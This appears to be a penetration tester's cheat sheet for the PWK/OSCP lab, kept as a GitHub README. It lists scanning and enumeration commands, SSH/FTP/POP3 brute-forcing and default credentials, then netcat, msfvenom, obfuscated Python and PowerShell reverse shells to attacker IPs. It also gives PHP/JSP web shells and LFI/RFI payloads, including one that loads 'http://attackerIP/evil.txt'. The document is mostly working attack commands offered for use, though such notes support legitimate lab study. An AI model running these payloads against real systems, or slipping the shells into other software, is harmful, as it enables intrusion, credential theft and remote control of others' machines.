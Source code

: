 ## automate VPN
creating txt file to automate vpn authentication
```sh
tar xvzf file.tar.gz  
echo 'OS-#####' > cred.txt  
echo ' #######' >> cred.txt  
vi auth-user-pass cred.txt  
openvpn OS-####-PWK.ovpn 
```

## Default Nmap Scanning<br />
```sh
nmap -sU -sV -n --top-ports 200 192.168.1.30  > /root/PWK-Lab/192.168.1.30/nmap-udp<br />
nmap -sT -sV -A -O -v -p 1-65535 192.168.1.30 > /root/PWK-Lab/192.168.1.30/nmap-tcp<br />
```
-sS stealth scanning<br />
```sh
nmap -vv -Pn -A -sC -sS -T 4 -p- 10.x.x.x<br />
nmap -p- -sS -A 10.x.x.x<br />
```
Vulnerability Scanning :  ``` nmap -sS -sV --script=vulscan/vulscan.nse 10.x.x.x ```<br />
OS detection :  ``` nmap -O -v 10.x.x.x ```<br /><br />

Automated scanning tools<br />
[Reconnoitre : ](https://github.com/codingo/Reconnoitre)
```python /root/Recon/Reconnoitre/reconnoitre.py -t 10.x.x.x -o /root/PWK-Lab/10.x.x.x/ --services``` <br />
[OneTwoPunch : ](https://github.com/superkojiman/onetwopunch)
```vi targets.txt; onetwopunch.sh -t targets.txt -p all -n "-sV -O --version-intensity=9" ```<br />

unicornscan -i tap0 -I -mT 10.x.x.x:a <br />
masscan -p0-65535 10.x.x.x --rate 150000 -oL output.txt <br />

## Scanning per protocols...
## - **SSH(22)** <br />
Bruteforce : <br />
```sh
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=users.txt --script-args ssh-brute.timeout=4s 10.x.x.x 
hydra -l user -P /usr/share/wordlists/rockyou.txt  10.x.x.x ssh -t 4
```
ref : https://github.com/g0tmi1k/debian-ssh  && https://blog.g0tmi1k.com/2010/04/pwnos/ <br />
OpenF*** (Apache mod_ssl < 2.8.7 OpenSSL) 764.c <br />

## - **FTP(21)** <br />
Default cred : anonymous/anonymous | ftp/ftp | ftpuser|ftpuser<br />

```sh
nmap -sV -Pn -vv -p 21  --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 10.x.x.x
nmap --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.x.x.x
check windows OS files : https://www.quora.com/How-can-I-tell-what-version-of-Windows-is-installed-on-a-hard-drive-without-booting-it 
```
Bruteforce : <br />
```sh
medusa -h 10.x.x.x -u user -P /root/SecLists/Passwords/bt4-password.txt -M ftp 
./root/PWK-Lab/FTP/ftp-user-enum-1.0/ftp-user-enum.pl -U /root/PWK-Lab/fuzzdb/bruteforce/names/simple-users.txt -t 10.x.x.x" 
```

## - **SMTP(25)**<br />
**vulnerability check** <br />
```sh 
nmap --script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.x.x.x 
```
**enumerating users** <br />
```sh 
nmap --script smtp-enum-users.nse 10.x.x.x

smtp-user-enum -M VRFY -U users.txt -t 10.x.x.x
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 10.x.x.x
smtp-user-enum -M VRFY -U  /usr/share/seclists/Usernames/Names/names.txt -t 10.x.x.x
```
connecting to mailsvr: <br />
```sh 
telnet IPADDRESS 25
nc -nvv IPADDRESS 25
```
msf module : auxiliary/scanner/smtp/smtp_enum<br />

## -  **POP3(110)**<br />
**Bruteforce** : ```hydra -L usr.txt -P /usr/share/wordlists/fasttrack.txt -t20 10.x.x.x -s55007 -I pop3```<br />

POP3 command
```sh 
USER boris
PASS *****
LIST 
RETR 1 
```

## -  **SNMP(161)**<br />
**Default Community Strings** : public/private/manager<br />

```sh 
snmp-check -t [IP] -c public 
snmpwalk -c public -v1 10.0.0.0 
nmap -sU --open -p 161 10.11.1.0/24 -oG mega-snmp.txt 
sudo nmap -sU -p 161 --script default,snmp-sysdescr 10.11.1.0/24 
onesixtyone -c community -i ips 
```
cf. for ip in $(seq 1 254); do echo 10.11.1.$ip; done > ips<br />
```sh 
nmap 10.11.1.* -p161 --open -oG - | awk '/161\/open/{print $2}' 
```

 
## -  **SMB(139,445)**<br />
Checking SMB port open/running : 
```sh 
nmap -A -p 139,445 10.11.1.1-254 -oG smb_service.txt; grep Up smb_service.txt | cut -d "" "" -f 2  
nmap 10.11.1.* -p139,445 --open -oG - | awk '/139\/open.*445\/open/{print $2}'  
```
**vulnerability scanning** : ```nmap -p 139,135,445 -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse 10.x.x.x```

**enumerating users** : ```nmap --script smb-enum-users.nse -p445 10.x.x.x  ```
```nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 10.x.x.x  ```


**smbclient**<br />
```sh 
smbclient -L //10.x.x.x/share -U user 
smbclient //10.x.x.x//IPC$ -N  
```
**checking access** <br />
```sh 
acccheck -v -t 10.x.x.x  -u user -P /usr/share/dirb/wordlists/common.txt  
acccheck -v -t 10.x.x.x -U /root/Vulnhub/Stapler/user.txt  -P /usr/share/dirb/wordlists/common.txt  
```
**smbmap**<br />
```sh 
smbmap -u user -p user -d share -H 10.x.x.x  
smbmap -u user -p .bash_history -d share -H 10.x.x.x  
smbmap -H 10.x.x.x\share -u user -p '.bash_history' -L  
```
ref : https://hackercool.com/2016/07/smb-enumeration-with-kali-linux-enum4linuxacccheck-smbmap/<br />


## MISC

- metasploit issue : <br />
sudo apt-get update <br />
service postgresql restart <br />
msfdb reinit  <br />
cf : https://github.com/rapid7/metasploit-framework/issues/9556 <br />

<br />

## Windows Shell
```sh 
//Non-Staged :  (windows/shell_reverse_tcp) && nc -nlvp 443
//Staged     : (windows/shell/reverse_tcp) && use exploit/multi/handler
```

-netcat
```sh 
//Windows(Victim) : nc.exe 10.11.0.69 4444 -e cmd.exe
//eg. C:\Inetpub\Scripts\nc.exe -nv 10.11.0.45 1234 -e C:\WINDOWS\System32\cmd.exe
//Kali(Attacker) : nc -nlvp 4444
```
-Creating Webshell
```sh 
ASP : msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.45 LPORT=2323 -f asp -a x86 --platform win -o shell.asp
      
JSP : msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.42 LPORT=4444 -f raw > shell.jsp
    <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
      
PHP : <?php echo passthru($_GET['cmd']); ?>
      <?php echo shell_exec($_GET['cmd']); ?>
```
ref : https://netsec.ws/?p=331

-Python Oneliner ReverseShell  *Make sure updating IP address and Port. 
```sh 
C:\Python26\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.*.*.*', ***)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```sh 
powershell -exec bypass -c Import-Module .\Invoke-PowerShellTcp.ps1;Invoke-PowerShellTcp -Reverse -IPAddress 10.*.*.* -Port 1234
```
ref : https://github.com/samratashok/nishang<br />

Powershell location<br />
```sh 
-32-bit (x86) PowerShell executable C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe  
-64-bit (x64) Powershell executable C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe  
```

## Local File Inclusion (LFI) 
Put files locally on the target and trigger webshell by browsing the page. <br />
```sh 
http://target.com/?page=home
http://target.com/?page=./../../../../../../../../../etc/passwd%00
```
eg. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion <br />

## Remote File Inclusion (RFI) 
Browse a remote page and trigger (remote) webshell page. <br />
```sh 
http://target.com/?page=http://attackerIP/evil.txt%00
```



